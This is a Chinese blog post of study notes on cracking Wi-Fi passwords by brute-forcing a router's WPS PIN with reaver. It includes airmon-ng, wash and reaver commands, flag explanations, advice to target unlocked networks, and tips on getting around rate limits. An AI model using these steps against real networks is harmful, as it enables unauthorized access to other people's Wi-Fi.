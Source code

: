 ```yaml
---
layout: post
title:  "PIN码破解Wi-Fi密码_学习笔记"
date:   2017-05-26 11:55:32 +0800
categories: hack your life
catalog:  true
tags:
  - hack your life
---
```




# 0 前言

发现自己对无线安全还是比较感兴趣的，上一篇学习了一下用aircrack-ng 来破解WPA，其基本原理是通过截获客户端和路由器之间的握手包，根据字典进行暴力破解，全程太依赖运气和字典，我认为过程不是太优雅。所以今天继续学习用PIN码进行破解。

毕竟最多也就猜个一万一千次，并且这种方法也不要求破解的时候已有客户端与路由器连接。


# 1 原理

规律

 * pin码是8位纯数字组成
 * 分三部分，前4位为第一部分，5-7位为第二部分，最后1位为第三部分。
 * 第一部分和第二部分没有关联。
 * 最后一位是根据第二部分计算得出的校验码

过程

1. 先单独对第一部分进行pin码匹配，
2. 前四位确定后再对第二部分进行匹配， 
3. 前7位，确定后，最后一位自动得出

算算

 1. 第一部分，前4位，根据排列组合，很容易算出 10<sup>4</sup>
 2. 第二部分，5到7位，10<sup>3</sup>
 3. 第三部分，直接得到结果


# 2 过程

## 1 检查插入的无线网卡


~~~
airmon-ng
~~~

~~~
iwconfig
~~~


## 2 开启监听模式

~~~
airmon-ng start wlan0
~~~

下面的命令暂时先记下，没有试过
~~~
ifconfig wlan0mon down
iwconfig wlan0mon mode monitor
ifconfig wlan0mon up
~~~


## 2 检查周围网络

~~~
wash -i wlan0
~~~

专挑WPS Locked 为 No 的下手。

## 3 reaver


~~~
reaver -i wlan0 -b 11:22:33:44:55:66 -S -N -vv -c 4
~~~

我在这一步没有成功，没有啥反馈，搜了一下，买了个新设备试试。

~~~
会出现很多，但一直都是12345670

一直提示
waiting for beacon from
~~~

* -i 监听借口名称
* -b 目标MAC地址
* -vv 显示更多的非严重警告
* -d delay每穷举一次的闲置时间，默认一秒。信号非常好，-d 0 ,信号普通-d 2,信号一般-d 5
* -t 即timeout 没次穷举等待返回的最长时间
* -c 指定频道

下面几个配置都没亲自试过

* -S 使用最小的DH key
* -p 一般钱四位默认是从0开始，如果通过这个参数设置从制定数值开始，例如9000.
* -s 穷举过程中，reaver会生成以路由MAC地址位名的wpc文件，在/etc/reaver/下。当时pin死了路由器，过段时间可以根据 -s file.wpc，就会根据之前的进度继续pin




# 4 注意点

1. 最后pin完最后会显示WPS PIN和WPA PSK。后期如果WPS功能没关，pin码没修改，无论怎样修改密码，都可以通过pin码获取wifi密码: reaver -i mon0 -b mac -p pin码，来再次得到密码。😄
2. 现在的路由一般会有防pin措施，例如会有300秒pin限制，但这个是伪防pin,作用不是很大。根据它设置时间间隔，正好防止我们把路由器pin死。




# 5 参考<a name="reference"></a>


   1. [无线安全专题_破解篇02--kali破解pin码](http://www.cnblogs.com/qiyeboy/p/5825525.html)
   2. [WPS Cracking with Reaver](https://www.pwnieexpress.com/blog/wps-cracking-with-reaver)